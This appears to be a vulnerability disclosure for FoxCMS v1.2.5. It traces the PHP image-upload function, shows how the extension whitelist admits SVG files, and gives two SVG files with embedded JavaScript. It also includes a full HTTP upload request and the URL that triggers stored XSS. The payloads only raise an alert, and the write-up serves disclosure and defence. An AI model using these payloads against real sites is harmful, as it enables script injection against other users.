






## FoxCMS v1.2.5 XSS Vulnerability

### Vulnerability Description
The latest version of FoxCMS v1.2.5 contains a file upload vulnerability in the image upload feature. This vulnerability arises due to insufficient input validation and sanitization, allowing an attacker to inject arbitrary JavaScript code. The injected code will execute when other users view the file.

FoxCMS is an open-source content management system (CMS) based on PHP+MySQL architecture. It includes common content models like single pages, articles, products, galleries, videos, feedback, downloads, etc. It also features rich template tags, SEO optimization, and static URL support. No advanced programming skills are needed, and it allows for quick building of diverse applications for efficient content management. The system supports multi-language support, form design, visitor statistics, message notifications, cloud storage services, etc.

Project Source Code: [Gitee FoxCMS](https://gitee.com/qianfox/foxcms)  
Official Website: [FoxCMS](https://www.foxcms.cn/)


### White-box Audit
The main code related to the vulnerability is located in the file:



```
app\admin\controller\PicManager.php
```
Following the call to `upload`, we trace the execution to the function:
```php
public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
{
    // Record into the file table
    $OriginalName = "";
    if (method_exists($file, "getOriginalName")) { 
        $OriginalName = $file->getOriginalName();
    } else {
        $OriginalName = $file->getFilename();
    }

    if (!empty($groupId) && $groupId == -1) {
        $groupId = 0;
    }

    // File extension
    if (method_exists($file, "getOriginalExtension")) {
        $imageType = $file->getOriginalExtension();
    } else {
        $imageType = $file->getExtension();
    }

    if (!$this->validationSuffix($imageType)) { // Validate image type
        return ['code' => 0, 'msg' => 'Please upload a ' . $this->attachment['i_suffixs'] . ' format file', "originalName" => $OriginalName];
    }
    $size = $file->getSize(); // in bytes
    if (!$this->validationSize($size)) { // Validate image size
        return ['code' => 0, 'msg' => 'Please upload a file smaller than or equal to ' . $this->attachment['i_file_size'] . 'MB', "originalName" => $OriginalName];
    }
    $file_path = ""; // File path
    $storage = 0; // Local
    if (($upload_type == 0) && $this->validationRemote()) { // Enable remote
        $storage = 1; // Remote
        // Upload to Aliyun OSS
        $oss = new Oss();
        $file_path = $oss->putFile($file, $err, $folder_name);
        if (!$file_path) {
            return ['code' => 0, 'msg' => $err, "originalName" => $OriginalName];
        }
    } else { // If remote is not enabled
        $file_path = $this->compression($file); // File path
    }

    // Get image file size
    if (!(preg_match('/(http:\/\/)|(https:\/\/)/i', $file_path))) { // Check if HTTP/HTTPS exists
        $url = root_path() . "/" . $file_path;
    } else {
        $url = $file_path;
    }
    $url = replaceSymbol($url);
    $imageInfo = getimagesize($url);
    $imgSize = "";
    if ($imageInfo) {
        $imgSize = "{$imageInfo[0]}X{$imageInfo[1]}";
    }

    $insert_data = [
        'url' => $file_path,
        'storage' => $storage,
        'app' => $app,
        'user_id' => intval(Session::get('admin_auth.id')),
        'file_name' => $OriginalName,
        'file_size' => $size,
        'file_group_type' => $groupId,
        'file_type' => $fileType,
        'create_time' => date("Y-m-d H:i:s"),
        'extension' => strtolower(pathinfo($OriginalName, PATHINFO_EXTENSION)),
        'size' => $imgSize
    ];
    $id = (new UploadFiles())->insertGetId($insert_data);

    if (!(preg_match('/(http:\/\/)|(https:\/\/)/i', $file_path))) { // Check if HTTP/HTTPS exists
        if (!str_starts_with($file_path, "/")) {
            $file_path = "/" . $file_path;
        }
    }
    return ['code' => 1, 'file' => $file_path, 'id' => $id, 'msg' => "Upload successful"];
}
```
The `validationSuffix` function checks file extensions and uses a whitelist to validate file types. SVG files are allowed, but no further checks are made on the file content, enabling the upload of files containing malicious code.


### Exploit
The attacker can craft an SVG file with embedded JavaScript, for example:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>

<svg
   xmlns:dc="http://purl.org/dc/elements/1.1/"
   xmlns:cc="http://creativecommons.org/ns#"
   xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#"
   xmlns:svg="http://www.w3.org/2000/svg"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:sodipodi="http://sodipodi.sourceforge.net/DTD/sodipodi-0.dtd"
   xmlns:inkscape="http://www.inkscape.org/namespaces/inkscape"
   width="750"
   height="200"
   viewBox="0 0 198.4375 52.916666"
   version="1.1"
   id="svg8"
   sodipodi:docname="logo.svg"
   inkscape:version="0.92.5 (2060ec1f9f, 2020-04-08)">
  <g
     inkscape:label="Layer 1"
     inkscape:groupmode="layer"
     id="layer1"
     transform="translate(-9.8676114,4.8833333)">
    <path
       sodipodi:type="star"
       id="path3725-5"
       sodipodi:sides="6"
       sodipodi:cx="104.14816"
       sodipodi:cy="-16.792293"
       sodipodi:r1="7.333178"
       sodipodi:r2="6.350718"
       sodipodi:arg1="1.0502155"
       sodipodi:arg2="1.5738143"
       inkscape:flatsided="true"
       inkscape:rounded="0"
       inkscape:randomized="0"
       d="m 107.79557,-10.430538 -7.33315,-0.02213 -3.647402,-6.361755 3.685742,-6.339624 7.33314,0.02213 3.64741,6.361756 z"
       style="fill:#131f6b;fill-opacity:1;stroke-width:0.05937638"
       transform="scale(1,-1)" />
  <!-- The below lines were added in a text editor to the image XML. This is the stored XSS attack. -->
  <script type="text/javascript">
    alert("This is an example of a stored XSS attack in an SVG image")
  </script>
  </g>
</svg>
```
Alternatively:
```xml
<?xml version="1.0" standalone="no"?>

<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" >

   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert("xss");
   </script>
</svg>
```
Once logged into the admin panel, the attacker can upload the SVG file through the image upload interface.



### HTTP Request for Upload:
```http
POST /index.php/admin4943/PicManager/picManager.html HTTP/1.1

Host: localhost

Accept-Encoding: gzip, deflate, br, zstd

Accept: */*

Cookie: Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6Mzoia

HRhIjtpOjE7fQ%3D%3D; EM_AUTHCOOKIE_lNE22nMPAa488ZNtzQ3WgvxbdQwb6OXM=admin%7C1770040866%7Cb261421f97bb00341664ae3a0f324f32; ujcms-visit-unique-visitor=499762764960989; ujcms-unique-visitor=-7658023558624320967; PHPSESSID=063db44dee3fd725ac70bcdf2d33ffbe; keeplogin=1%7C86400%7C1739866061%7C1ac00e88e1610806dc9a101784368bbd; status_desc=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E; version=1.2.5; access_::1=1739784248; access_127_0_0_1=1739791249

X-Requested-With: XMLHttpRequest

Sec-Fetch-Site: same-origin

Referer: http://localhost/index.php/admin4943/Config/base.html?columnId=23

Cache-Control: no-cache

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36

sec-ch-ua-platform: "Windows"

sec-ch-ua-mobile: ?0

Pragma: no-cache

Sec-Fetch-Mode: cors

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9cau8eWCxPD8xFV6

Sec-Fetch-Dest: empty

Origin: http://localhost

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

sec-ch-ua: "Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"

Content-Length: 1324

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="file[]"; filename="stored.svg"

Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>

<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" >

   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert("xss");
   </script>

</svg>

------WebKitFormBoundary9cau8eWCxPD8xFV6
...
```


### Triggering XSS
When accessing the uploaded SVG file, the XSS attack is triggered:
```r
http://localhost/uploads/files/20250217/1095defe8f917fab.svg
```

